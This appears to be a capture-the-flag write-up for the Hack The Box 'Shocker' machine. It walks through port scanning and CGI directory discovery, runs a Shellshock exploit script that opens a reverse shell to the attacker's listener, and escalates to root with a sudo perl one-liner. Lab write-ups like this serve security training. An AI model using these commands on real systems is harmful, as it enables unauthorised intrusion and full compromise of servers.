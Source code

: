 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Shocker
- Description: Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock exploit, which affected millions of public-facing servers.
- Difficulty: Easy
## Initial Access

Nmap
```bash
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From this info I can try to visit the page:

![assets/images/Pasted image 20240119092618.png]

Nothing too crazy stands out, I can try to check for dirsearch while I enumerate this apache version:
```bash
HTB dirsearch -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 64 -e sh -f -u  http://10.10.10.56/cgi-bin/ 

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: sh | HTTP method: GET | Threads: 64 | Wordlist size: 661635

Output File: /home/kali/.dirsearch/reports/10.10.10.56/-cgi-bin-_24-01-19_09-25-34.txt

Error Log: /home/kali/.dirsearch/logs/errors-24-01-19_09-25-34.log

Target: http://10.10.10.56/cgi-bin/

[09:25:35] Starting: 
[09:25:35] 200 -  118B  - /cgi-bin/user.sh
```

I can see that we have /cgi-bin/user.sh, this is screaming shellshock so I'll try to exploit it:

```bash
HTB python2 34900.py payload=reverse rhost=10.10.10.56 rport=80 lhost=10.10.14.14 lport=443 pages=/cgi-bin/user.sh
[!] Started reverse shell handler
[-] Trying exploit on : /cgi-bin/user.sh
[!] Successfully exploited
[!] Incoming connection from 10.10.10.56
10.10.10.56> whoami
shelly

10.10.10.56>
```

We got a shell!
## Privilege Escalation

Checking sudo permissions:
```bash
10.10.10.56> sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

```bash
shelly@Shocker:/usr/lib/cgi-bin$  sudo perl -e 'exec "/bin/sh";' 
# whoami
root
```

Very simple root!
## Beyond Root

Now since I can't update the machine, what I'll do is get rid of the vulnerable script user.sh

As far as root goes, I'll get rid of the sudo perl usage